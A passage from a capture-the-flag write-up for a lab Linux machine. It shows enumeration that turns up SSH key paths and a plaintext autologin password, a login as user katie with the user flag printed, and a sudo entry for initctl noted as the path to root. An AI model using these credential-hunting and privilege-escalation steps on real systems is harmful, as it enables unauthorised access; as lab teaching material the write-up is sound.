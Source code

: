 - MySQL  Ver 14.14 Distrib 5.7.20-19, for Linux (x86_64) using  6.3

- Possible SSH keys

```plaintext
/usr/share/chromeos-ssh-config/keys/authorized_keys
/usr/share/chromeos-ssh-config/keys/id_rsa
/usr/share/chromeos-ssh-config/keys/id_rsa.pub
```

- Uncommon passwd files, being one of them for **autologin** containing the password **SummerHereWeCome!!**

```plaintext
[+] Searching uncommon passwd files (splunk)
passwd file: /etc/autologin/passwd
passwd file: /etc/pam.d/passwd
passwd file: /usr/share/baselayout/passwd

/etc/autologin/passwd
-rw-r--r-- 1 root root 19 Feb  3 16:43 /etc/autologin/passwd
SummerHereWeCome!!
```

- File `user.txt` at **katie**'s home path, seen from a manual enumeration.

Once we have found some passwords, decided to test them for users `katie` and `chronos`, being successful with the combination **katie:SummerHereWeCome!!**

With access to this profile, got the user flag in her home directory

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
katie@spectra ~ $
```

## Root flag

As we had katie's password, the first thing I did was to check if she was able to run something as root, as the following entry was found.

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~ $
```

Checking the binary, identified that it could be used to control jobs in the machine, as instructed below, but we would need to tamper with one of these jobs to get root access.

```bash
katie@spectra ~ $ /sbin/initctl help
Job commands:
  start                       Start job.
  stop                        Stop job.
  restart                     Restart job.
  reload                      Send HUP signal to job.
  status                      Query status of job.
  list                        List known jobs.

Event commands:
  emit                        Emit an event.

Other commands:
  reload-configuration        Reload the configuration of the init daemon.
  version                     Request the version of the init daemon.
```